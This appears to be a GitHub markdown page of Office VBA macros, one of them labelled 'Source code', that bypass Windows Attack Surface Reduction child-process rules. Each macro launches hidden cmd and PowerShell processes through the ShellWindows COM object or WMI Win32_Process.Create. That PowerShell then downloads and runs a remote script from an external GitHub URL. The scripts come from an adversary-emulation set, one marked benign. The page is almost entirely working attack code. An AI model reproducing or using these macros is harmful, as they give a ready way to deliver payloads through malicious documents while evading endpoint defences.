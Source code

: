 # Office Macro - COM

reference: https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3


### WordShellExecute

Word.
explorer->cmd->powershell.

```
Sub ASR_bypass_create_child_process_rule4()
    Const ShellWindows = _
    "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}"
    Set SW = GetObject("new:" & ShellWindows).Item()
    SW.Document.Application.ShellExecute "cmd.exe", "/c powershell.exe IWR -uri ""https://raw.githubusercontent.com/theclintox/atomic-red-team/master/ARTifacts/Chain_Reactions/chain_reaction_DragonsTail.bat"" -OutFile ""~\Documents\payload.bat"" ; ~\Documents\payload.bat", "C:\Windows\System32", Null, 0
End Sub
```
### WordWmicCreateProcess

Word.
Wmiprvse.exe->cmd->powershell.

```
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/theclintox/atomic-red-team/master/ARTifacts/Chain_Reactions/chain_reaction_DragonsTail.ps1')", Null, objConfig, intProcessID
End Sub
```

### WordBenignWMICCreateProcess

Word.
Wmiprvse.exe->cmd->powershell.

This method does not execute mimikatz.

```
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/theclintox/atomic-red-team/master/ARTifacts/Chain_Reactions/chain_reaction_DragonsTail_benign.ps1')", Null, objConfig, intProcessID
End Sub
```
